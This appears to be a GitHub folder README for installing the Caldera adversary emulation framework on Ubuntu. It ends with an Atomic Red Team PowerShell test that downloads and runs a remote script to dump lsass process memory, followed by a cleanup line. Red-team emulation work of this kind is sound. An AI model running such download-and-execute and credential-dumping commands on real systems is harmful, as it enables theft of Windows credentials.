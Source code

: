 This folder conatins Caldera Installation Steps on Ubuntu and Related Documents.


Caldera Installation Steps:
1. Download the filed default.yml and install_caldera.sh file from github
2. Change the permission of file  install_caldera.sh
        chmod +x install_caldera.sh
3. run install_caldera.shc
        ./install_caldera.sh
4. Create screen and run caldera build in caldera directory 
         screen -S caldera_install
         python3 server.py --insecure --build
5. Access  http://localhost:8888 in Chrome browser. Credentials are there in default.yml file.

Installation Document: 
https://caldera.readthedocs.io/en/latest/Installing-Caldera.html


YouTube Caldera Adversary Emulation:
https://www.youtube.com/watch?v=EIHLXWnK1Dw&t=4378s




[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
IEX (New-Object Net.WebClient).DownloadString('https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1003.001/src/Out-Minidump.ps1'); get-process lsass | Out-Minidump



Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore



